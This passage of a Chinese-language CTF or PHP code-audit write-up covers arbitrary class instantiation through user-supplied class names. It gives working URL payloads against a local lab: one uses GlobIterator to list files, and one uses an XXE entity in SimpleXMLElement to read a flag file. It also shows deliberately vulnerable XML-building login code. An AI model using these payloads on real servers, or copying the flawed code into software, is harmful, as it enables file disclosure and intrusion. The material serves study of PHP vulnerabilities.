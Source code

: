 ```php
$param = isset($_GET['param']) ? $_GET['param'] : null;
$param2 = isset($_GET['param2']) ? $_GET['param2'] : null;
if(class_exists($classname)){
    $newclass = new $classname($param,$param2);
    var_dump($newclass);
    foreach ($newclass as $key=>$value)
        echo $key.'=>'.$value.'<br>';
}
```

**当class_exists时，调用__autoload方法，但是__autoload方法不存在，新建了一个spl_autoload_register方法，类似__autoload方法**

- 列出文件（GlobIterator类）

```php
public GlobIterator::__construct ( string $pattern [, int $flags = FilesystemIterator::KEY_AS_PATHNAME | FilesystemIterator::CURRENT_AS_FILEINFO ] )
```

**第一个参数为要搜索的文件名，第二个参数为第二个参数为选择文件的哪个信息作为键名**

- payload

```
http://127.0.0.1:8888/index.php?name=GlobIterator&param=./*.php&param2=0
```
![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200310165128.png)

- 读取flag

```
http://127.0.0.1:8888/index.php?name=SimpleXMLElement&param=%3C?xml%20version=%221.0%22?%3E%3C!DOCTYPE%20ANY%20[%3C!ENTITY%20xxe%20SYSTEM%20%22php://filter/read=convert.base64-encode/resource=f1agi3hEre.php%22%3E]%3E%3Cx%3E%26xxe;%3C/x%3E&param2=2
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200310165415.png)
- 参考

```
https://www.php.net/manual/en/function.spl-autoload-register.php
```

## strpos使用不当引发漏洞

### False Beard

- code

```php
class Login {
  public function __construct($user, $pass) {
    $this->loginViaXml($user, $pass);
  }

  public function loginViaXml($user, $pass) {
    if (
      (!strpos($user, '<') || !strpos($user, '>')) &&
      (!strpos($pass, '<') || !strpos($pass, '>'))
    ) {
      $format = '<?xml version="1.0"?>' .
        '<user v="%s"/><pass v="%s"/>';
      $xml = sprintf($format, $user, $pass);
      $xmlElement = new SimpleXMLElement($xml);
      // Perform the actual login.
      $this->login($xmlElement);
    }
  }
```